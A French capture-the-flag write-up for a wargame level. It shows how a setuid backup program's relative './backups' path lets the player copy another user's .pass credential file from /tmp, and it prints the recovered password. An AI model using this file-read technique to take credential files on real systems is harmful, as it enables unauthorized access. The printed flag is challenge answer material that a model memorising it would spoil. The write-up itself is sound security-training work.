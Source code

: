 # Level 08

Cette executable est setuid sur l'user level09.

```
$ l -la ~/
total 28
drwxrwx---+ 1 level09 users      80 Jun 17 16:26 backups/
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08*
$ echo "World" > hello
$ ./level08 hello
$ cat ./backups/hello
World
$ cat ./backups/.log
LOG: Starting back up: hello
LOG: Finished back up hello
```

Il demande de fournir un fichier en paramètre, et crée un dossier backups dans le répertoire courant s'il n'existe pas. Après avoir reçu un fichier et créé le dossier, il copie le fichier donné en paramètre et écrit dans le fichier ./backups/.log pour indiquer s'il a réussi à sauvegarder le fichier.

En lisant le code décompilé, on peut penser qu'il y a une faille au niveau de snprintf, car le nom du fichier est pris en paramètre format, mais on reste limité par la taille donnée dans le second paramètre.

Avant d'exploiter cette faille, nous avons essayé autre chose. Puisque le programme ouvre le fichier en tant qu'utilisateur level09, nous pourrions lui donner le chemin /home/users/level09/.pass.

```bash
~$ level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
~$
```

Cependant, cette tentative échoue avec une erreur indiquant qu'il ne peut pas écrire dans le fichier ./backups//home/users/level09/.pass. Nous pourrions penser à créer le dossier, mais nous n'avons pas la permission de créer des dossiers dans backups. Nous allons donc réessayer cette procédure dans le répertoire /tmp, où nous avons des permissions d'écriture.

```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
/tmp$ mkdir -p backups/home/users/level09
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Et voilà ! Nous avons réussi à forcer le programme à lire un fichier sans avoir les permissions, dans le dossier courant ./backups. Si le dossier backups avait eu un chemin absolu dans le home ou ailleurs, cela aurait été beaucoup plus compliqué.
